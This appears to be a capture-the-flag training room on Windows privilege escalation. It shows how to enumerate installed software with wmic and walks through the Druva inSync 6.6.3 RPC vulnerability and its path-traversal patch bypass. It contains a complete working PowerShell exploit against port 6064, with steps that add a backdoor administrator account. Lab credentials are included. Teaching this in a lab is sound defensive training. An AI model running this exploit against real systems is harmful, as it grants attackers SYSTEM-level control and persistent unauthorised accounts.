 # Abusing Vulnerable Software

## Prerequisites
Make sure to click the **Start Machine** button before you continue, which will deploy the target machine in split-view. If you prefer connecting to the machine via RDP, you can use the following credentials:

- **Username:** `thm-unpriv`
- **Password:** `Password321`

---

## Unpatched Software
Software installed on the target system can present various privilege escalation opportunities. As with drivers, organizations and users may not update them as often as they update the operating system. You can use the `wmic` tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):

```bash
wmic product get name,version,vendor
```

> **Note:** The `wmic product` command may not return all installed programs. Depending on how some programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services, or any trace that indicates the existence of additional software that might be vulnerable.

Once we have gathered product version information, we can search for existing exploits on the installed software online on sites like [Exploit-DB](https://www.exploit-db.com/), [Packet Storm](https://packetstormsecurity.com/), or even Google.

### Task
Using `wmic` and Google, can you find a known vulnerability on any installed product?

---

## Case Study: Druva inSync 6.6.3

The target server is running **Druva inSync 6.6.3**, which is vulnerable to privilege escalation as reported by Matteo Malvica. The vulnerability stems from a bad patch applied over another vulnerability initially reported for version 6.5.0 by Chris Lyne.

### Vulnerability Details
The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port `6064` with `SYSTEM` privileges, accessible from localhost only. RPC allows a process to expose functions (procedures) over the network so that other machines can call them remotely.

In the case of Druva inSync:
- Procedure number `5` on port `6064` allows anyone to request the execution of any command.
- Since the RPC server runs as `SYSTEM`, any command gets executed with `SYSTEM` privileges.

#### Original Vulnerability
The original vulnerability (versions 6.5.0 and prior) allowed any command to be run without restrictions. The intended functionality was to remotely execute specific binaries provided with inSync, but no checks were made to enforce this.

#### Patch Bypass
A patch was issued to check that executed commands started with the string `C:\ProgramData\Druva\inSync4\`. However, this was insufficient as a path traversal attack could bypass the control. For example:
- To execute `C:\Windows\System32\cmd.exe`, you could use:
    ```
    C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe
    ```

---

## Exploit Walkthrough

To exploit this vulnerability, we need to communicate with port `6064`. The protocol is straightforward, and the packets to be sent are as follows:

1. **Hello Packet**: Contains a fixed string.
2. **Procedure Packet**: Indicates that we want to execute procedure number `5`.
3. **Command Length Packet**: Specifies the length of the command.
4. **Command Packet**: Contains the command string to be executed.

### Exploit Code
The following PowerShell exploit can be used to elevate privileges and retrieve the task's flag:

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
        [System.Net.Sockets.AddressFamily]::InterNetwork,
        [System.Net.Sockets.SocketType]::Stream,
        [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

### Usage
1. Open a PowerShell console and paste the exploit code.
2. Modify the `$cmd` variable to execute the desired payload. For example:
     ```powershell
     $cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"
     ```
     This will:
     - Create a user `pwnd` with the password `SimplePass123`.
     - Add the user to the `Administrators` group.

3. Verify the user creation:
     ```bash
     net user pwnd
     ```

     Example output:
     ```
     User name                    pwnd
     Account active               Yes
     Local Group Memberships      *Administrators       *Users
     ```

4. Run a command prompt as the `pwnd` user:
     - Use the `pwnd` credentials when prompted.
     - Retrieve the flag from the Administrator's desktop:
         ```bash
         type C:\Users\Administrator\Desktop\flag.txt
         ```

---

**References:**
- Original exploit by Matteo Malvica.
- Exploit available on the target machine at `C:\tools\Druva_inSync_exploit.txt`.
- [Exploit-DB](https://www.exploit-db.com/)
- [Packet Storm](https://packetstormsecurity.com/)
- [Google](https://www.google.com/)